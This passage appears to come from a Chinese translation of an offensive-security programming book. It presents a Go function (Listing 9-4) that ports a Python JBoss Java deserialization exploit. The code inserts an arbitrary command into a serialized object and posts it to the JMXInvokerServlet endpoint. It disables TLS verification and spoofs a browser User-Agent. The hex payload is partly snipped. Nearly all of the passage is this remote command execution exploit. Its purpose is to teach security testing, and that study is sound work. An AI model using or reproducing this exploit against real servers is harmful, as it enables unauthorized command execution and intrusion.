 脚本中展示的大部分内容对你来说应该不陌生，因为我们在之前的章节中已经覆盖了大部分内容。现在只是以 Go 友好的方式进行等效的函数调用。清单 9-4 显示了利用的 Go 版本。

```
func jboss(host string, ssl bool, cmd string) (int, error) {
    serializedObject, err := hex.DecodeString("ACED0005737--SNIPPED FOR BREVITY--017400") ❶
    if err != nil {
        return 0, err
    }
    serializedObject = append(serializedObject, byte(len(cmd)))
    serializedObject = append(serializedObject, []byte(cmd)...) ❷
    afterBuf, err := hex.DecodeString("740004657865637571--SNIPPED FOR BREVITY--7E003A") ❸
    if err != nil {
        return 0, err
    }
    serializedObject = append(serializedObject, afterBuf...)

    var client *http.Client
    var url string
    if ssl { ❹
        client = &http.Client{
            Transport: &http.Transport{
                TLSClientConfig: &tls.Config{
                    InsecureSkipVerify: true,
                },
            },
        }
        url = fmt.Sprintf("https://%s/invoker/JMXInvokerServlet", host)
    } else {
        client = &http.Client{}
        url = fmt.Sprintf("http://%s/invoker/JMXInvokerServlet", host)
    }

    req, err := http.NewRequest("POST", url, bytes.NewReader(serializedObject))
    if err != nil {
        return 0, err
    }
    req.Header.Set( ❺
        "User-Agent",
        "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko")
    req.Header.Set(
        "Content-Type",
        "application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue")
 resp, err := client.Do(req) ❻
    if err != nil {
        return 0, err
    }
    return resp.StatusCode, nil
}
```

*清单 9-4：原始 Python 序列化利用的 Go 等效版本 (*[/ch-9/jboss/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-9/jboss/main.go)*)*

